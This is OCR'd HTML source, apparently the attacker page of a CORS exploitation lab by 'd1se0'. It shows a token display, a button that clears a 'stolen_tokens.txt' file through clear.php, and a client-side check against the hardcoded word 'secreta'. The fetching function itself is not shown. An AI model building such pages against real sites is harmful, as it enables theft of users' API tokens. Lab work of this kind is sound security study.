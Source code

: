 ```html
        }

        // Función de validación
        function validar() {
            // La palabra estática a comparar
            const palabraCorrecta = "secreta";

            // Obtener el valor del campo de texto
            const palabraIngresada = document.getElementById("palabra").value;

            // Comparar la palabra ingresada con la palabra correcta
            if (palabraIngresada === palabraCorrecta) {
	            alert("¡Correcto!");
            } else {
                alert("Incorrecto, intenta nuevamente.");
            }
        }

        // Función para ejecutar el script clear.sh
        function ejecutarClear() {
            var xhttp = new XMLHttpRequest();
            xhttp.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    alert("Texto limpiado correctamente.");
                    console.log(this.responseText);  // Muestra el resultado del script en la consola
                }
            };
            // Enviar una solicitud GET a clear.php para ejecutar el script
            xhttp.open("GET", "clear.php?action=clear", true);
            xhttp.send();
        }
    </script>
</head>
<body>
    <div align="center" style="margin: 30px;">
        Explotacion de CORS! By d1se0.
    </div>

    <p>Your API Token: <span id="api-token">No token</span></p>

    <!-- Botón para enviar la solicitud GET manualmente -->
    <button onclick="obtenerDatos()">Obtener Datos</button>
    <!-- Formulario para validar la palabra -->
    <h3>Verifica tu palabra</h3>
    <label for="palabra">Introduce la palabra:</label>
    <input type="text" id="palabra" placeholder="Escribe aquí">
    <button onclick="validar()">Validar</button>

	<!-- Botón para ejecutar el script clear.sh -->
    <button onclick="ejecutarClear()">Limpiar stolen_tokens.txt</button>
</body>
</html>
```
